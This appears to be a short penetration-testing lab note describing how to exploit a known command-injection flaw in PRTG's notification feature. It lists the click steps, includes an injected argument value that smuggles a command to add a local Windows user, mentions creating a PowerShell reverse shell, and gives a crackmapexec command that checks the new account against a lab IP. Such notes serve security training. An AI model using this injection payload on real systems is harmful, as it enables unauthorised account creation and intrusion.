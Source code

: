 #### Leveraging Known Vulnerabilities

Execute command via notification functionality

1. login
2. setup->notifications
3. Add new notification
4. select demo file for program file
5. pass arbitrary arguments
	1. create user
		1. test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup
	2. Create Rev Shell With powershell
6. save notification
7. Click test notification

checking account access with crackmapexec
```shell-session
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!
```

